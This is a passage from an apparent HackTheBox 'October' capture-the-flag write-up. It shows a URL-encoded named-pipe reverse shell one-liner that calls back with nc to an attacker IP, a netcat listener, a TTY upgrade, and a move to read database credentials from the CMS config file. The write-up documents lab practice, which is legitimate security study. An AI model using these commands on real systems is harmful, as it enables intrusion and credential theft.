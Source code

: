 
Now I use Burp's encoder to URL encode the following payload for a reverse shell:

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.63 443 >/tmp/f
```

I start my local listener with:

```bash
rlwrap nc -lnvp 443
```

And send my reverse shell payload to the target using `curl` and I get a shell:

![shell-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/October/img/shell-13.png)


## Privilege Escalation


After I land on the box, I spwan a TTY shell using: 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then I start going through the October CMS installation files. I know that there is a `/config/database.php` script that should contain credentials to a backend database, so I immediately go for it:

![database-creds-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/October/img/database-creds-14.png)
